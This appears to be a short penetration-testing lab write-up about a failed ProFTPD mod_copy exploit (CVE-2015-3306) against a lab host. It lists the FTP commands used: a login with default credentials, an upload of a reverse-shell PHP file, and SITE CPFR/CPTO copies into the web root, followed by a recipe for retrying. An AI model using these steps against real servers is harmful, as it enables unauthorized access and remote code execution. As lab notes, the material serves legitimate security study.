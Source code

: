 # ProFTPD mod_copy Exploit Attempt (CVE-2015-3306)

# Target Details

- **Service**: ProFTPD 1.3.1
- **Port**: 2121
- **Authentication**: Successful using `msfadmin:msfadmin`
- **Exploit Type**: Arbitrary File Copy via `mod_copy` module

# Objective

Leverage the vulnerable `mod_copy` module to move a malicious `shell.php` file from the FTP upload directory into Apache's web root (`/var/www/html/`) and trigger a reverse shell.

---

# Steps Taken

1. **Connected to ProFTPD**
   ```bash
   ftp 192.168.6.3 2121

2. Authenticated successfully using:
    Username: msfadmin
    Password: msfadmin


3. Uploaded reverse shell:
    put shell.php

4. Attempted to execute:
    quote SITE CPFR /home/msfadmin/shell.php
    quote SITE CPTO /var/www/html/shell.php

5. Resulted in:
    500 'SITE CPFR' not understood

6. Ran quote HELP to confirm module support. Output:
    No SITE CPFR or CPTO listed. `mod_copy` is not enabled.

# Outcome

Exploit failed due to mod_copy module not being present or enabled on this ProFTPD instance. The necessary commands (SITE CPFR, SITE CPTO) were not available, blocking the core mechanism of the attack.

# Lessons learned

Even vulnerable versions may not have exploitable modules compiled or enabled.

Always validate server features (quote HELP) before attempting feature-specific exploits.

Upload capability without file movement limits post-exploitation.

# Future Notes

If the target ProFTPD build supports mod_copy, the exploit remains viable:

- Upload payload to writable path

- Copy to /var/www/html/ using SITE CPFR/CPTO

- Trigger via browser
